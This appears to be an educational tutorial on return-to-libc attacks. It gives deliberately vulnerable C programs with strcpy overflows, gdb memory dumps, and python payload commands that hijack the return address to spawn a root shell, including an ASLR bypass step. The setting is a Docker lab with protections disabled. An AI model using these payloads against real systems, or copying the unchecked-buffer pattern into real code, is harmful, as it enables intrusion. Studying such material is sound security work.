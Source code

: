 # Return to `libc`

According to [4], a "return-to-libc" attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, bypassing the NX bit feature (if present) and ridding the attacker of the need to inject their own code.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity4:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity4:latest
```

----

### Finding a vulnerability, a simple overflow

We'll be using the following program named `rlibc1.c`:
```C
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

Let's a get a bit more of information about the program structure in memory:
(*compiled with `-fno-stack-protector -z execstack` flags*)

```
>>> disas vulnerable_function
Dump of assembler code for function vulnerable_function:
   0x0804849d <+0>:	push   %ebp
   0x0804849e <+1>:	mov    %esp,%ebp
   0x080484a0 <+3>:	sub    $0x88,%esp
   0x080484a6 <+9>:	mov    0x8(%ebp),%eax
   0x080484a9 <+12>:	mov    %eax,0x4(%esp)
   0x080484ad <+16>:	lea    -0x6c(%ebp),%eax
   0x080484b0 <+19>:	mov    %eax,(%esp)
   0x080484b3 <+22>:	call   0x8048330 <strcpy@plt>
   0x080484b8 <+27>:	leave  
   0x080484b9 <+28>:	ret    
End of assembler dump.
>>> p not_called
$1 = {void ()} 0x804847d <not_called>
>>>
```

right before the call to `strcpy@plt`, the stack and registers looks like:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────
            address buffer  address string
0xffffd750 [6c d7 ff ff] [ba d9 ff ff] 01 00 00 00 38 d9 ff f7 l...........8...
                                                buffer
0xffffd760 00 00 00 00 00 00 00 00 00 00 00 00 [00 00 00 00 ................
0xffffd770 03 00 00 00 09 00 00 00 3f 00 c0 03 00 00 00 00 .... ...?.......
0xffffd780 34 d8 ff ff a8 d7 ff ff a0 d7 ff ff 69 82 04 08 4...........i...
0xffffd790 38 d9 ff f7 00 00 00 00 c2 00 00 00 56 ad eb f7 8...........V...
0xffffd7a0 ff ff ff ff ce d7 ff ff 34 0c e3 f7 f3 72 e5 f7 ........4 ...r..
0xffffd7b0 00 00 00 00 00 00 c3 00 01 00 00 00 fd 82 04 08 ................
0xffffd7c0 a2 d9 ff ff 2f 00 00 00 00 a0 04 08 32 85 04 08] ..../.......2...
                                    ebp           ret
0xffffd7d0 02 00 00 00 94 d8 ff ff [f8 d7 ff ff] [d3 84 04 08] ................
            string
0xffffd7e0 [ba d9 ff ff] 00 d0 ff f7 eb 84 04 08 00 10 fd f7 ................
0xffffd7f0 e0 84 04 08 00 00 00 00 00 00 00 00 f3 da e3 f7 ................
0xffffd800 02 00 00 00 94 d8 ff ff a0 d8 ff ff 6a ae fe f7 ............j...
0xffffd810 02 00 00 00 94 d8 ff ff 34 d8 ff ff 1c a0 04 08 ........4.......
0xffffd820 3c 82 04 08 00 10 fd f7 00 00 00 00 00 00 00 00 <...............
0xffffd830 00 00 00 00 cd fd 26 9d dd 99 23 a5 00 00 00 00 ......&...#.....
0xffffd840 00 00 00 00 00 00 00 00 02 00 00 00 80 83 04 08 ................
─── Registers ────────────────────────────────────────────────────────────────────────────
   eax 0xffffd76c        ecx 0xa52399dd        edx 0xffffd824        ebx 0xf7fd1000    
   esp 0xffffd74c        ebp 0xffffd7d8        esi 0x00000000        edi 0x00000000    
   eip 0x08048330     eflags [ PF SF IF ]       cs 0x00000023         ss 0x0000002b    
    ds 0x0000002b         es 0x0000002b         fs 0x00000000         gs 0x00000063    
```
A different representation of the stack available at [3] is:
```
higher  | <arguments2>        |
address | <return address>    |
        | <old %ebp>          | <= %ebp
        | <0x6c bytes of      |
        |       ...           |
        |       buffer>       |
        | <arguments1>        |
lower   | <address of buffer> | <= %esp
```
Note that the starting of the stack has get filled with the parameters for the call to `strcpy` (`arguments2`).

Launching `./rlibc1_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"` we obtain:
```bash
Enjoy your shell!
root@44522cd9481b:~#
```

Of course, this is with the stack protection disabled, when compiling the program without disabling this protections, the program just crashes and we can't perform the buffer overflow.

```bash
root@3bf52dad8e1d:~# ./rlibc1 "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"
*** stack smashing detected ***: ./rlibc1 terminated
Aborted
```

### Playing with arguments

Let's play with a slightly different program named `rlibc2.c`:
```C
char* not_used = "/bin/sh";

void not_called() {
    printf("Not quite a shell...\n");
    system("/bin/date");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```
We debug the program to obtain information about the `system` call and the `not_used` variable:
```
>>> disassemble not_called
Dump of assembler code for function not_called:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	sub    $0x18,%esp
   0x08048483 <+6>:	movl   $0x8048578,(%esp)
   0x0804848a <+13>:	call   0x8048340 <puts@plt>
   0x0804848f <+18>:	movl   $0x804858d,(%esp)
   0x08048496 <+25>:	call   0x8048350 <system@plt>
   0x0804849b <+30>:	leave  
   0x0804849c <+31>:	ret    
End of assembler dump.
>>> p not_used
$5 = 0x8048570 "/bin/sh"
```
The idea behind the exploit is to overflow the buffer with the `strcpy` call and modify the return address to point to the
 `system` call address with apprlibcriate parameters (not the default ones which will call `/bin/date`). The stack should look like:

 ```
| 0x8048570 <not_used>             |
| 0x43434343 <fake return address> |
| 0x8048350 <address of system>    |
| 0x42424242 <fake old %ebp>       |
| 0x41414141 ...                   |
|   ... (0x6c bytes of 'A's)       |
|   ... 0x41414141                 |
 ```

```bash
root@3bf52dad8e1d:~# ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x50\x83\x04\x08" + "CCCC" + "\x70\x85\x04\x08"')"
#
```

(*note, while debugging and playing with the overflow, the following command allows to exit normally `gdb --args ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "\x78\xd7\xff\xff" + "\x50\x83\x04\x08" + "\xd3\x84\x04\x08" + "\x70\x85\x04\x08"')"`.*)


### Return to `libc` attack

From [3], the trick is to realize that programs that use functions from a shared library, like `printf` from `libc`, will link the entire library into their address space at run time. This means that even if they never call system, the code for system (and every other function in `libc`) is accessible at runtime. We can see this fairly easy in gdb:

```
>>> p system
$1 = {<text variable, no debug info>} 0x555be310 <__libc_system>
>>> find 0x555be310, +99999999, "/bin/sh"
0x556e0d4c
warning: Unable to access 16000 bytes of target memory at 0x5572ef54, halting search.
1 pattern found.
```
Now from gdb:
```
gdb --args rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```
we'll get a shell. This however does not happen when launched directly from the command line due to ASLR [5]. To bypass this:
```
ulimit -s unlimited # from[3], disable library randomization on 32-bit programs
./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```

### Bibliography

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] Hovav Shacham (2007), *The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)*. In Proceedings of the 14th ACM conference on Computer and communications security (CCS '07). ACM, New York, NY, USA, 552-561. DOI: https://doi.org/10.1145/1315245.1315313
- [3] Alex Reece (2013). *Introduction to return oriented programming (ROP)*. Retrieved from http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html.
- [4] Wikipedia. *Return-to-libc attack*. Retrieved from https://en.wikipedia.org/wiki/Return-to-libc_attack.
- [5] Wikipedia. *Address space layout randomization*. Retrieved from https://en.wikipedia.org/wiki/Address_space_layout_randomization.
